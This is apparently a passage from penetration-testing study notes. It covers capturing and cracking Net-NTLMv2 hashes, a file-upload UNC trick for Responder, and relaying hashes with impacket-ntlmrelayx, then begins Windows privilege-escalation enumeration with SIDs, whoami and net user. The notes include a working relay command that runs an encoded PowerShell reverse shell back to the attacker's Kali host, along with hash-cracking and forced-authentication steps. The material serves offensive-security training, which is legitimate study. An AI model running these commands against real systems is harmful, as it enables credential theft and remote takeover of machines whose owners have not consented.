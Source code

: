 ```bash
```
Then in the target, access the kali on smb server to trigger a authentication.
```bash
dir \\[kali ip]\test
```
Crack the `Net-NTLMv2` in hashcat, mode `5600`. 
if cannot crack it due to complexity -> Perform `ntlmrelayx` (impacket)
**Tricks**: for web app, upload file -> intercept -> change `filename` to UNC include(double`\`) -> responder. 
### Relaying Net-NTLM2
Condition: `UAC remote restrictions disabled` or `local administrator`
`[host1] cred` = `[host2] cred`
Tool: `impacket-ntlmrelayx`
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
`-smb2support` - add support for _SMB2_.
`--no-http-server`  - disable the HTTP server.
`-t` - set the target to `[host2]`
`-c` - set our command (powershell reverse shell)
Then , start a listener on **kali**, **host1**: `dir \\[kali]\test` -> receive shell from host2.

# Windows PE

LSA - Generate users/group SID for local.
DC - Generate user/group for domain.
**Well-known SIDs:**
```
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```
## Situation awareness
**Key information:**
```
- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications
- Running processes
```
**List the username and hostname.**
```powershell
whoami
```
**Display all groups of our current user**
```powershell
whoami /groups
net user [user]
```
 **Obtain a list of all local users**
```powershell
Get-LocalUser
or
net user
```
**Enumerate existing groups**
```powershell
```